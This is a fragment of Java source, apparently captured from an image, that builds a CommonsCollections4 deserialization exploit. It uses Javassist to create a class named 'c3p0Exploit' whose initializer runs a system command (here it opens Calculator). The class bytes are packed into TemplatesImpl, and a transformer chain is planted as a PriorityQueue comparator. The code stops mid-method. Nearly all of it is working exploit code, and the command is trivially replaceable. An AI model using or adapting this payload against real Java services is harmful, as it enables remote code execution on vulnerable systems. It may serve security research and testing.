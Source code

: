 ```java
    public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static PriorityQueue CommonsCollections4() throws Exception {

        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("c3p0Exploit");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetCode = new byte[][]{shellCode};

        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_name", "h3rmesk1t");
        setFieldValue(templatesImpl, "_bytecodes", targetCode);
        setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templatesImpl})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);

        PriorityQueue priorityQueue = new PriorityQueue(2);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(priorityQueue, transformingComparator);

        return priorityQueue;
    }

    public static byte[] toByteArray(InputStream in) throws Exception {
        byte[] classBytes;
        classBytes = new byte[in.available()];
```